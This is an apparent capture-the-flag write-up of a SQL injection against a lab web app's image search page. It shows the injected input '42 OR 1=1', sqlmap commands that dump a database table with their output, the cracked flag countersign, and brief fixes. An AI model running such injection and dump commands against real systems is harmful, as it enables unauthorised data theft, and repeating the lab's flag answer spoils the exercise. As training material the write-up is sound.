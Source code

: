 #01 : SQL injection via image search text input  

## Method

1. Go to http://192.168.0.179/index.php?page=searchimg

2. Enter 42 OR 1=1 in the search box and submit


Returns:
```ID: 42 OR 1=1 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

3. Open terminal (Powershell), in sqlmap-dev folder run

```
python sqlmap.py --url="http://192.168.0.179/?page=searchimg&id=1&Submit=Submit#" --tables
```

Returns

```Database: Member_images
[1 table]
+---------------------------------------+
| list_images                           |
+---------------------------------------+
```
Dump list_images table:

```
python sqlmap.py --url="http://192.168.0.179/?page=searchimg&id=1&Submit=Submit#" --dump -T list_images
```

```
Database: Member_images
Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment
                                                              |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !
                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..
                                                              |
| 3  | https://www.google.fr/google.png | Google    | Google it !
                                                              |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !
                                                              |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?
                                                              |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```


md5 decrypted countersign --> albatroz


## Fixes
1. Use prepared statements
2. Send form as post request

## Resources
* [md5online](https://www.md5online.org/md5-decrypt.html)

* [sha256 Online](https://emn178.github.io/online-tools/sha256.html)

* [hackers-arise/database-hacking-part-4](https://www.hackers-arise.com/post/2017/04/24/database-hacking-part-4-extracting-data-with-sqlmap)